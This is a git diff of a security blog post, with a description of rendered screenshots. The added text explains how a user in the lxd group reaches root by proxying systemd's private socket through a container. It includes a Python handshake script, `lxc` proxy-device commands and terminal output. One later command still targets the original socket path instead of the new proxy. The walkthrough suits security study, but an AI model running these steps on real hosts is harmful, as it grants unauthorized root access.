

Before and after one commit to hackdou/initblog.com, a Jekyll site: the page built from _posts/2019-05-20-lxd-root.markdown, in a window 1280 px wide and 1400 px high, scrolled down 9224 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
more blog work

````diff
--- a/_posts/2019-05-20-lxd-root.markdown
+++ b/_posts/2019-05-20-lxd-root.markdown
@@ -279,9 +279,84 @@ Take a look at the first messages above. The text inside the `iov_base` sections
 
 This looks pretty relevant to what we want.
 
-I'll spare you the trial and error and just state that the first message is indeed authenticating to the service. It must start with a null byte and then contain the rest of the text inside the quotes. While `strace` shows these broken into fragments, we can actually piece them together into singe variables in a Python script and thrown them at the socket. If we get the syntax EXACTLY right, we can essentially run systemctl commands just by talking to the socket.
+Let's see if we can use this to have a conversation with systemd.
 
-Because we can leverage the LXD vulnerability to masquerade as root to any UNIX socket, we can now run `systemctl` commands as root from any low-privilege user who is a member of the `lxd` group.
+Take this short python script:
+
+```py
+#!/usr/bin/env python3
+
+"""
+Sends initial auth stream to systemd's private socket
+
+As demonstrated in https://initblog.com/2019/lxd-root/
+"""
+
+import socket
+import sys
+
+AUTH = u'\0AUTH EXTERNAL 30\r\nNEGOTIATE_UNIX_FD\r\nBEGIN\r\n'
+
+def send_msg(sock_name, msg):
+    """Send raw message to an AF_UNIX socket"""
+
+    # Connect to the defined socket
+    client_sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
+    client_sock.connect(sock_name)
+
+    # Send the message
+    client_sock.sendall(AUTH.encode('latin-1'))
+
+    # If there is a reply, print it to console
+    reply = client_sock.recv(8192).decode("latin-1")
+    if reply:
+        print(reply)
+
+def main():
+    send_msg(sys.argv[1], AUTH)
+
+if __name__ == '__main__':
+    main()
+```
+
+This is designed to connect to a socket specified as the first argument and then to send the first message we observed in the output of `strace`.
+
+What happens when we run this as our lowpriv user directly against the systemd private socket?
+
+```
+lowpriv@server:~$ ./systemd_auth.py /run/systemd/private
+[!] Connection reset...
+```
+
+OK, so nothing back from the socket. We know we can spoof root using proxied sockets. Let's create a two-stage tunnel next. The first will connect to the private systemd socket on our host and bind it inside the container to `/tmp/container_sock`. The second will connect to that new socket inside the container and then bind it to `/tmp/host_sock` on our host.
+
+The reason for this two-step proxy is just so we can do all our work on the host, without having to jump inside the container.
+
+```
+# Create initial socket proxy
+lowpriv@server:~$ lxc config device add falcor container_sock \
+    proxy connect=unix:/run/systemd/private listen=unix:/tmp/container_sock \
+    bind=container mode=0777
+Device container_sock added to falcor
+
+# Create second socket proxy
+lowpriv@server:~$ lxc config device add falcor host_sock \
+    proxy connect=unix:/tmp/container_sock listen=unix:/tmp/host_sock \
+    bind=host mode=0777
+Device host_sock added to falcor
+```
+
+Alright, now let let's run the python script again to see if we can now talk to systemd.
+
+```
+lowpriv@server:~$ ./systemd_auth.py /run/systemd/private
+OK a1cde28f7bdd46f283f348654d7fa07f
+AGREE_UNIX_FD
+```
+
+Excellent! We are now speaking directly to the host's systemd service as if we are root.
+
+From here, we can continue to analyze `strace` output to build the `systemctl` commands we want to run. While `strace` shows the message data broken into fragments, we can actually piece them together into singe variables in a Python script and thrown them at the socket.
 
 You can review the source code of lxd_rootv2.py to fully understand how this is implemented.
 
````
